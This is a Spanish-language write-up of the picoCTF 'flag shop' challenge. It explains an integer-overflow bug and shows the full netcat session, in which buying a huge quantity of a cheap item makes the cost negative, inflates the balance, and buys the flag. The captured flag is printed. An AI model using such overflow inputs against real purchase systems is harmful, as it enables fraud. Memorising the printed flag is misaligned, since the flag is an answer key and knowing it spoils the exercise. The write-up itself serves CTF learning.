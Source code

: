 # Descripción
There's a flag shop selling stuff, can you buy a flag? [Source](https://jupiter.challenges.picoctf.org/static/64e724ad327f83ad833d9c6baa072b1f/store.c). Connect with `nc jupiter.challenges.picoctf.org 4906`.
Hints:
1. Two's compliment can do some weird things when numbers get really big!
# Solución
- Nos conectamos usando e comando que nos dan
- Escogemos la opción 1 para ver nuestro balance
- Intentamos "comprar una bandera"
- Si escogemos la que nos bandera nos descontarán los "créditos"
- Si intentamos comprar la bandera nos dirá que no contamos con los créditos necesarios
- Si usamos la opción comprar la que no es bandera y ponemos un número demasiado grande encontraremos un bug que nos dirá que el costo es negativo, así que al momento de "descontarnos" nos saldrá como positivo el saldo y de esta manera podremos "comprar" la bandera
```
┌──(kali㉿kali)-[~/hacking]
└─$ nc jupiter.challenges.picoctf.org 4906
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100 


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
10000000000000000

The final cost is: -494665728

Your current balance after transaction: 494666828

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_9c5fac9b}
Welcome to the flag exchange
We sell flags

3. Check Account Balance

4. Buy Flags

5. Exit

 Enter a menu selection

picoCTF{m0n3y_bag5_9c5fac9b}
```
# Notas adicionales
# Referencias
